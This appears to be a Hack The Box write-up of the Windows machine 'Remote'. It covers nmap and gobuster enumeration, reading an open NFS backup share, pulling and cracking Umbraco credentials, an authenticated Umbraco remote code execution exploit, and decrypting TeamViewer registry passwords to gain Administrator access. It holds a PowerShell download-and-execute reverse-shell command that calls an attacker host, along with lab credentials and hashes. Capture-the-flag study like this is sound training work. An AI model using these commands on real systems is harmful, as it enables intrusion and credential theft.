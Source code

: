 ```yaml
---
title: "[HTB] Machine: Remote"
description: "[HTB] Machine: Remote"
date: 2023-06-29
menu:
  sidebar:
    name: "[HTB] Machine: Remote"
    identifier: htb-machine-remote
    parent: htb-machines-windows
    weight: 10
hero: images/remote.png
tags: ["HTB", "nfs", "umbraco", "hashcat", "teamviewer", "evilwinrm"]
---
```


# Remote
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.180
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-02 18:25 BST
Nmap scan report for 10.10.10.180 (10.10.10.180)
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -31s
| smb2-time: 
|   date: 2023-07-02T17:26:07
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.64 seconds
```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx --no-error
===============================================================
Gobuster v3.5                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                                                                                               
===============================================================
[+] Url:                     http://10.10.10.180
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/07/02 19:58:02 Starting gobuster in directory enumeration mode
===============================================================
/.aspx                (Status: 200) [Size: 6693]
/contact              (Status: 200) [Size: 7880]
/contact.aspx         (Status: 200) [Size: 7880]
/blog.aspx            (Status: 200) [Size: 5001]
/home.aspx            (Status: 200) [Size: 6703]
/blog                 (Status: 200) [Size: 5011]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5328]
/products.aspx        (Status: 200) [Size: 5328]
/default.aspx         (Status: 200) [Size: 6693]
/people.aspx          (Status: 200) [Size: 6739]
/people               (Status: 200) [Size: 6739]
/product.aspx         (Status: 500) [Size: 3420]
/product              (Status: 500) [Size: 3420]
/Default.aspx         (Status: 200) [Size: 6693]
/Home                 (Status: 200) [Size: 6703]
/Home.aspx            (Status: 200) [Size: 6703]
/Products             (Status: 200) [Size: 5338]
/Products.aspx        (Status: 200) [Size: 5338]
/Contact              (Status: 200) [Size: 7890]
/Contact.aspx         (Status: 200) [Size: 7890]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/Blog.aspx            (Status: 200) [Size: 5011]
/Blog                 (Status: 200) [Size: 5011]
/People.aspx          (Status: 200) [Size: 6749]
/People               (Status: 200) [Size: 6749]
/Product              (Status: 500) [Size: 3420]
/Product.aspx         (Status: 500) [Size: 3420]
```
- Seems like there is a [UMBRACO CMS](https://umbraco.com/), based on `/install` redirect

![](./images/2.png)

- We have `Remote Code Execution` exploits
  - But I need to find the version and creds to be able to perform them

![](./images/3.png)

- Nothing found on `SMB` and `FTP`

![](./images/4.png)

- We can also check `nfs` on port `2049` which was returned by `nmap`
```
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

## Foothold/User
- Let's mount it

![](./images/5.png)

- If we check `App_Data` we will find [SDF file](https://fileinfo.com/extension/sdf)
  - Which is `a file that contains a compact relational database saved in the SQL Server Compact (SQL CE) format, which is developed by Microsoft`
  - We can search for tools to open it
  - But we can try using `strings` just to see its' contents: `strings Umbraco.sdf | less`
  - Found some creds
    - `admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa`
    - `smith@htb.local:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=`
  - Crack them right away
    - `admin@htb.local:baconandcheese`

![](./images/6.png)

![](./images/7.png)

- Creds work, now we can access `CMS`

![](./images/8.png)

- Let's try one of the exploits
  - Change `login`, `host`, `password`, `cmd` and `proc.StartInfo.FileName`.

![](./images/9.png)

![](./images/10.png)

![](./images/11.png)

- Let's get a reverse shell
  - `cmd` = `/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.12:8000/shell.ps1')`

![](./images/12.png)

## Root
- Let's upload `winpeas` and run it
  - We have a list of interesting services
  - `TeamViewer`

![](./images/13.png)

- There is a module in metasploit to gather [TeamViewer credentials](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb)
  - Let's retrieve a password for registry: `HKLM\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7`
    - `OptionsPasswordAES`, `SecurityPasswordAES`, `SecurityPasswordExported`, `ServerPasswordAES`, `ProxyPasswordAES`, `LicenseKeyAES`


![](./images/14.png)

![](./images/15.png)

- According to module, it looks like `TeamViewer` uses static `key` and `iv`
  - Using `metasploit`'s module as reference we can write own script to decrypt the password

![](./images/16.png)

- You can use `evil-winrm`, `psexec` or `wmiexec` to connect as Administrator

![](./images/17.png)
